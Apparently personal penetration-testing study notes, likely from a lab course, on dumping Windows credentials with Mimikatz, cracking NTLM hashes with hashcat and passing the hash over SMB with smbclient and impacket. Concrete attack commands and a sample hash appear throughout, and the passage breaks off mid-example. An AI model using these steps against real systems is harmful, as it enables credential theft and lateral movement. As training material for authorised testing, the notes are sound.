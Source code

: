 - Stored in SAM (Security Account Manager)
	- Location: C:\Windows\system32\config\sam
- Mimikatz
	- extracts passwords & hashes from various sources
	- sekurlsa module
		- extracts passwords from LSASS (Local Security Authority Subsystem)
			- LSASS caches NTLM hashes & credentials
				- needs to be run as SYSTEM user
	- Can only run as Admin
	- Needs [SeDebugPriveledge] enabled
		- allows debugging of other users' processes
	- token elevation function
		- elevates privileges
		- requires [SeImpersonateaPrivilege]
			- all local admins have it by default
- PsExec tool
	- privilege escalation 

- Example:
	- Get-LocalUser
	- **C:\tools\mimikatz.exe**
	- cd C:\tools
	- [.\mimikatz.exe]
		- must run Powershell as admin
		- Commands:
			- privilege::debug
				- enables [SeDebugPrivilege]
				- required for sekurlsa::logonpasswords and lsadump::sam
			- sekurlsa::logonpasswords
				- extracts all plaintext and hashed passwords from all sources
				- generates alot of output
			- lsadump::sam
				- extracts NTLM hashes from SAM
			- token::elevate
				- elevate to SYSTEM user privileges
		1. privilege::debug
		2. token::elevate
		3. lsadump::sam
		4. Then crack
			- hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
### Passing NTLM
- NTLM passwords not salted & are static between sessions
- On used as local admin account
	- other accounts in local admin group need to change UAC

- Tools that support authentication with NTLM hashes
	- SMB enumeratison
		- smbclient
		- CrackMapExec
	- Command execution
		- impacket
			- psexec.py
			- wmiexec.py
- Can use NTLM hashes to connect with SMB, RDP, and WinRM, and Mimikatzs
- Example:
	- Gain access to an SMB by providing NTLM hash
		- ```
			smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
					```
			- -U = user
			- --pw-nt-hash = indicating the hash
		- After connecting